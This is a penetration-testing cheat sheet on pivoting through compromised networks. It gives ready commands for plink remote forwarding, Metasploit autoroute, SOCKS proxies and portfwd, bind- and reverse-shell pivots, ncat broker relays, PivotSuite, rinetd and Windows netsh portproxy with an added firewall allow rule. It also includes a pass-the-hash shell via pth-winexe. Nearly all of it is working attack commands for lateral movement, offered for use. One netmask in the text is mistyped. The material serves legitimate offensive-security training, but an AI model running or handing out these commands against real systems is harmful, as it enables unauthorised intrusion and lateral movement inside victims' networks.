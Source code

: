 # Tools

## plink \(windows\)

```text
plink.exe -l root -R 445:127.0.0.1:445 YOURIPADDRESS
```

## Metasploit

### MANUAL ROUTE

this method will give the full access to the target IP address like its siting in our lan \( only accessible in metasploit \)

```text
background the session
route add 10.0.1.0/24 [session id]
```

### AUTO ROUTE

this method will give the full access to the target IP address like its siting in our lan \( only accessible in metasploit \)

```text
run autoroute -p >>> list active routing tables
run autoroute -s 10.1.1.0 -n 255.255.255.0 >>> netmask is optional
run autoroute -d -s 10.10.10.1  >>> delete autoroute on ip
run autoroute -s 10.10.10.1/24 >>> can use CIDR
```

### PROXY

add a proxy to proxychains.conf and use it inside and outside of metasploit

```text
use auxiliary/server/socks4a
use auxiliary/server/socks5
use auxiliary/server/socks_unc
set srvport 8080 → set proxy local port
```

add 127.0.0.1 8080 to proxychains and make sure there are no other proxies in the config file:

```text
socks4  127.0.0.1  8080
```

now run commands with proxychains prefix

```text
proxychains nmap -Pn -sT -sV -p- [target]
proxychains pth-winexe -U windows10/user123//10.0.1.5 cmd.exe
```

### PORT FORWARD

forward only the given remote port to the given local port specifically \( only accessible in msfconsole \)

```text
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

### PIVOTING BIND SHELL

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```text
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```text
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```text
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```text
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
ALLWAYS USE A BIND SHELL WHILE PIVOTING
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](../../.gitbook/assets/image%20%28267%29.png)

### PIVOTING REVERSE SHELL

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```text
RHOST >>> internal target
LHOST >>> compromized machine
```

![](../../.gitbook/assets/image%20%28269%29.png)

## Ncat

```text
# Ncat =/= netcat
# Enhanced version, developped by nmap dev and often packaged with
# Ciphered connexion, IP restriction
# To pivot, needed on both attacker and pivot machine

# Attacker (broker == accept multiple connexions)
$ ncat -lv --broker --max-conns 2

# Pivot
# We connect to attacker and target
$ ncat -v 192.168.2.149 31337 -c 'ncat -v 10.42.42.2 80'
```

## PivoteSuite

```text
# Similar features to other tools but support multilevel pivot
# Like Metasploit

# "Remote" local port forwarding
# On the pivot
$ pivotsuite -S -F --server-option=PF --forward-ip=10.42.42.2 --forward-port=80 --server-ip=192.168.2.105 --server-port=8080

# "Remote" dynamic port forwarding
$ pivotsuite -S -F --server-option=SP --server-ip=192.168.2.105 --server-port=8080
```

## RINETD

```text
 sudo apt install rinetd
```

edit the config file:

```text
nano /etc/rinetd.conf
```

![](../../.gitbook/assets/image%20%28268%29.png)

```text
service rinetd restart
```

bind address is attacker machine bind port is the listening incoming port connectaddress is the address to forward the traffic to and connectport is the target port.

## NETSH \(Windows\)

{% hint style="warning" %}
for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use. Fortunately, both are on and enabled by default on Windows operating systems.
{% endhint %}

```text
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
```

test:

```text
smbclient -L 10.11.0.22 --port=4455 --user=Administrator
```







